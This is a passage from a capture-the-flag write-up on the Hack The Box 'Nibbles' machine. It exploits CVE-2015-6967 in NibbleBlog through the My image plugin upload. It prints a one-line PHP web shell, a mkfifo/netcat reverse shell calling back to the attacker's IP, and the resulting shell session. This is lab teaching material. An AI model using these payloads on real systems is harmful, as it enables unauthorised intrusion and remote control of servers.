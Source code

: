 ### user.txt

From there, we’ll upgrade our shell, and then get user.txt:

    
    
    python -c 'import pty;pty.spawn("/bin/bash")'
    /bin/sh: 1: python: not found
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home
    nibbler@Nibbles:/home$ ls
    nibbler
    
    nibbler@Nibbles:/home$ cd nibbler
    
    nibbler@Nibbles:/home/nibbler$ ls
    personal  personal.zip  user.txt
    
    nibbler@Nibbles:/home/nibbler$ wc -c user.txt
    33 user.txt
    
    nibbler@Nibbles:/home/nibbler$ cat user.txt
    b02ff32b...
    

### Without Metasploit

[This blog](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-
Execution-47.html) provides a good write up of CVE-2015-6967, and how to
exploit it.

  1. Obtain admin credentials - we already have this.
  2. Activate the “My image” plugin. If we click on “Plugings” on the menu on the left side of the admin page, it takes us to a list of installed plugins: ![1529838022141](https://0xdfimages.gitlab.io/img/1529838022141.png) So we can click “configure” under the vulnerable plugin, “My image”. We’re given an upload form: ![1529838333058](https://0xdfimages.gitlab.io/img/1529838333058.png)
  3. Use the form to upload cmd.php. 
    
        root@kali# cat cmd.php
    <?php system($_REQUEST['cmd']); ?>
    

  4. Visit `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=[command]` ![1529838501643](https://0xdfimages.gitlab.io/img/1529838501643.png)

For whatever reason, I’m finding that my session with this site isn’t lasting
long (probably other users logging in and stepping on my shell, since they are
all named image.php). So let’s get a real shell. We’ll change out php to this:

    
    
    root@kali# cat callback.php
    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8082 >/tmp/f"); ?>
    

Then repeat the steps above, and on visiting `image.php`:

    
    
    root@kali# nc -lnvp 8082
    listening on [any] 8082 ...
    connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 55268
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    